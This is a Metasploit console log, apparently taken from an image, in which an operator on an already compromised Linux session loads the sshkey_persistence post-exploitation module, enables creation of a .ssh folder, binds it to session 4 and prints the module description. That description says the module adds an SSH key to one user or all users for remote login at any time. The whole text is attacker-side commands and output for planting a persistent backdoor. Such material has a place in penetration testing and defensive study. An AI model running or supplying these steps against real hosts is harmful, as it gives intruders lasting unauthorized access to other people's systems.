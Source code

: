 ```
msf5 exploit(linux/local/service_persistence) > use post/linux/manage/sshkey_persistence
msf5 post(linux/manage/sshkey_persistence) > show options

Module options (post/linux/manage/sshkey_persistence):

   Name             Current Setting       Required  Description
   ----             ---------------       --------  -----------
   CREATESSHFOLDER  false                 yes       If no .ssh folder is found, create it for a user
   PUBKEY                                 no        Public Key File to use. (Default: Create a new one)
   SESSION                                yes       The session to run this module on.
   SSHD_CONFIG      /etc/ssh/sshd_config  yes       sshd_config file
   USERNAME                               no        User to add SSH key to (Default: all users on box)

msf5 post(linux/manage/sshkey_persistence) > set CREATESSHFOLDER true
CREATESSHFOLDER => true
msf5 post(linux/manage/sshkey_persistence) > set SESSION 4
SESSION => 4
msf5 post(linux/manage/sshkey_persistence) > info

       Name: SSH Key Persistence
     Module: post/linux/manage/sshkey_persistence
   Platform: Linux
       Arch: 
       Rank: Excellent

Provided by:
  h00die <mike@shorebreaksecurity.com>

Compatible session types:
  Meterpreter
  Shell

Basic options:
  Name             Current Setting       Required  Description
  ----             ---------------       --------  -----------
  CREATESSHFOLDER  true                  yes       If no .ssh folder is found, create it for a user
  PUBKEY                                 no        Public Key File to use. (Default: Create a new one)
  SESSION          4                     yes       The session to run this module on.
  SSHD_CONFIG      /etc/ssh/sshd_config  yes       sshd_config file
  USERNAME                               no        User to add SSH key to (Default: all users on box)

Description:
  This module will add an SSH key to a specified user (or all), to 
  allow remote login via SSH at any time.
```
